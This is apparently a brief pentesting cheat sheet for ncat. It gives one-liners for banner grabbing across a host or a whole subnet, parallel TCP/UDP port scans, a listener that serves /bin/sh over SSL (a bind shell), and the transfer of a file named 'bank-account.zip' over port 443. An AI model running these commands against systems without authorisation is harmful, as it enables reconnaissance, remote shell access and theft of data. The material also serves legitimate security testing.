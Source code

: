 # ncat

## <mark style="color:red;">Scanning</mark>

### <mark style="color:orange;">banner grab</mark>

```
apt install ncat

for port in {1..65535}; do echo "" | ncat -vvn 192.168.56.170 $port 2>&1 | grep "READ SUCCESS for EID " | grep -v "peer unspecified" | cut -d ":" -f 3-  ; done
```

### <mark style="color:orange;">banner grab the whole subnet</mark>

```
apt install ncat

for hosts in {1..254}; do for ports in {1..65535}; do echo "" | ncat -vvn 192.168.1.$hosts $ports 2>&1 | grep "READ SUCCESS for EID " | grep -v "peer unspecified" ; done ;done
```

### <mark style="color:orange;">port scanner</mark>

```
tcp scan:
parallel ncat -nvz [host] ::: {1..65535}  2>&1 | grep "Connected"

udp scan:
parallel ncat -nvuz [host] ::: {1..65535}  2>&1 | grep "Connected"
```

## <mark style="color:red;">SSL</mark> <mark style="color:red;">connection</mark>

```
listener: nc --ssl -nvlp [local port] -e /bin/sh
client: nc --ssl localhost [remote port]
```

## <mark style="color:red;">FTP</mark>

```
nc -l -p 443 < C:\bank-account.zip --from machine that has the file, this one is windows.

nc -w3 192.168.31.201 443 > C:\bank-account.zip
```
